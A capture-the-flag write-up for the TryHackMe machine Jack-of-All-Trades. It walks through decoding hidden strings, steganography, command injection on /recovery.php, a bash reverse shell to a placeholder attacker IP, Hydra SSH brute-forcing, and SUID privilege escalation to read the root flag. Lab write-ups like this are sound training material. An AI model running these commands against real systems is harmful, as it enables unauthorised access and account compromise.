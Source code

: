 #  TryHackMe Writeup Jack-of-All-Trades

## Introduction:
In this challenge, we analyze a non-standard service setup, discover an RCE vulnerability, use steganography, and escalate privileges to root.

## Port Scanning
```python
22/tcp open  http    Apache httpd 2.4.10 (Debian)  
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5
```
Ports are switched: HTTP on 22, SSH on 80.

## Enumeration
On port 22 (web server), we discover a base64-encoded string:
```python
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMg...
```
Decoded, it reveals:
> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing!
Also gotta remember your password: u?WtKSraq

We also find a hidden page:
```python
/recovery.php
```
## Further Enumeration
On /recovery.php, we discover a base32-encoded string. After decoding, we get a message:

> Remember that the credentials to the recovery login are hidden on the homepage!
Here's a hint: bit.ly/2TvYQ2S

Following the link reveals the word Stegosauria, suggesting steganography.

## Steganography
From the homepage, we extract headers.jpg.

Use steghide to extract embedded content using the earlier-found password:

```python
steghide extract -sf headers.jpg
```
It gives us cms.creds containing login credentials for /recovery.php.

## RCE & Reverse Shell
The page is vulnerable to command injection via ?cmd=:
```python
http://10.10.56.56:22/recovery.php?cmd=whoami
```
We execute a reverse shell:
```python
http://target/recovery.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOUR-IP/4444+0>%261'
```
## Brute-force SSH
We find a file: jacks_password_list containing possible passwords.

Using Hydra:
```python
hydra -l john -P jacks_password_list ssh://10.10.56.56 -s 80
```
We successfully log in.

## File Exfiltration
We download user.jpg using a Python HTTP server:
```python
python -m SimpleHTTPServer
```
Navigate to: http://10.10.56.56:8000

## Privilege Escalation
Find SUID binaries:
```python
find / -perm -u=s -type f 2>/dev/null
```
One of them is:
```python
/usr/bin/strings /root/root.txt
```
This reveals the root flag.

## Conclusion:

We successfully gained access, extracted user and root flags, and completed the machine via a SUID binary.

